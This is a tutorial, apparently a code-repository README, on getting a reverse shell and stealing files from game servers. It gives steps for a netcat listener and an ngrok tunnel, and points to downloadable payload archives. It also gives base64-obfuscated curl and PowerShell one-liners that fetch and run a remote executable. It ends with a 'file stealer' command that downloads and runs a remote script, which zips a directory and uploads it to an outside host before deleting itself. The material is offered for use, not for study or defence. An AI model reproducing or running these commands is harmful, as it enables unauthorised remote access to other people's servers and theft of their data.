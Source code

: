 # Python Reverse Shell Tutorial (Linux and Windows)
## I made a [Windows batch script that does it all automatically](https://catlitter.minoa.cat/api/view/0137b23d50.zip), from installing Python, to compiling the code and uploading, it's all user-friendly
###

## On Your Own Computer
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python script n compiler](https://catlitter.minoa.cat/api/view/fafc8a7461.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [anontransfer.com](https://anontransfer.com/)!
   - Once finished uploading goto the download url, click download, then go into your downlaod manager and copy the direct download link.

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
###
Windows:
`powershell -Command "Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}'))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}')))))"`

###

8. **Run the File**
Linux:
`chmod +x {FILENAME}`
 `./{FILENAME}`
Windows:
`start {FILENAME}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*
